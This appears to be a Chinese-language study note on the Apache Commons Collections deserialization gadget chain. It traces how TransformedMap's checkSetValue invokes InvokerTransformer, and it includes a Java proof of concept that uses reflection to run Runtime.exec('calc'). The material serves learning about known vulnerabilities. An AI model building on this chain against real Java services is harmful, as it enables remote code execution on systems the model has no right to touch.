 现在的流程可以看作去找InvokerTransformer的上一层调用

![[Drawing 2025-05-28 19.16.19.excalidraw|1500]]

这里去寻找transformer方法调用的地方，同时需要可以实例化InvokerTransformer类

在TransformedMap类中发现了调用处
```java
//方法调用
protected Object checkSetValue(Object value) {  
    return valueTransformer.transform(value);  
}

//构造方法去实例化可以实现Transformer接口的类
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {  
    super(map);  
    this.keyTransformer = keyTransformer;  
    this.valueTransformer = valueTransformer;  
}
//因为public权限修饰符可以被外部直接访问，同时此方法的作用是调用TransformedMap方法
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {  
    return new TransformedMap(map, keyTransformer, valueTransformer);  
}
```
这时我们可以利用反射绕过权限修饰的特性
exp
```java
package org.example;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Runtime runtime = Runtime.getRuntime();  
  
//        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
//        exp.transform(runtime);  
        Map<Object, Object> expMap = new HashMap<>();  
//        expMap.put("a", "b");  
        InvokerTransformer expTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        Map<String, String> transformedMap = TransformedMap.decorate(expMap, null, expTransformer);  
        Class<?> clazz = transformedMap.getClass();  
        Method checkSetValueMethod = clazz.getDeclaredMethod("checkSetValue", Object.class);  
        checkSetValueMethod.setAccessible(true);  
        checkSetValueMethod.invoke(transformedMap, runtime);  
    }  
}
```
顺便解释下这里传入的构造方法，实际上目标只需要传递expTransformer这一个参数，其他参数不重要因为，我们需要调用的方法是checkSetValue方法，而这个方法只需要expTransformer这一个参数，同时这里直接调用decorate方法是因为public修饰符可以直接访问，而这个方法作用是直接实例化TransformedMap对象并且调用对应的构造方法（因为其构造方法为protected修饰无法直接外部调用）
![[Pasted image 20250528224439.png]]
